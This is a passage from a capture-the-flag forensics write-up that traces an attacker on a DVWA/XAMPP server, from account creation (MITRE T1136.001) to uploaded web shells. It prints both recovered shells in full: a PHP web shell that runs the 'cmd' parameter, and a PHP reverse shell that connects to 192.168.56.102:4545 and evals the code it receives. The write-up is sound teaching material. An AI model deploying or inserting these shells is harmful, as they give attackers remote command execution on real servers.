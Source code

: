     here we have to know the ***MITRE ID*** which we can found in [techniques docs](https://attack.mitre.org/techniques/enterprise/) and to create account the id is: **T1136** and user /add is a Local account and it's ID is:  **.001** so the ***MITRE ID*** is : ***T1136.001*** 

     [![](/assets/images/CTF-Writeups/Injector/Q14.jpg)](/assets/images/CTF-Writeups/Injector/Q14.jpg)

    The answer: **T1136.001 **

15. **The attacker uploaded a simple command shell through file upload vulnerability. Provide the name of the URL parameter used to execute commands?**

    after explore mounted drive and ***xampp*** directory i found the the two shell **phpshell.php** and **phpshell2.php** uploaded in this path `\xampp\htdocs\DVWA\hackable\uploads`  and here the content of the two files:

    ```php+HTML
    <?php
    system($_GET["cmd"]);
    ?>
    ```

    ```php+HTML
    //<?php error_reporting(0); $ip = '192.168.56.102'; $port = 4545; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } elseif (($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } elseif (($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } else { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; eval($b); die();
    ```

    and in the phpshell.php the name of the URL parameter is cmd

    The answer: **cmd**

16. **One of the uploaded files by the attacker has an md5 that starts with "559411". Provide the full hash.**
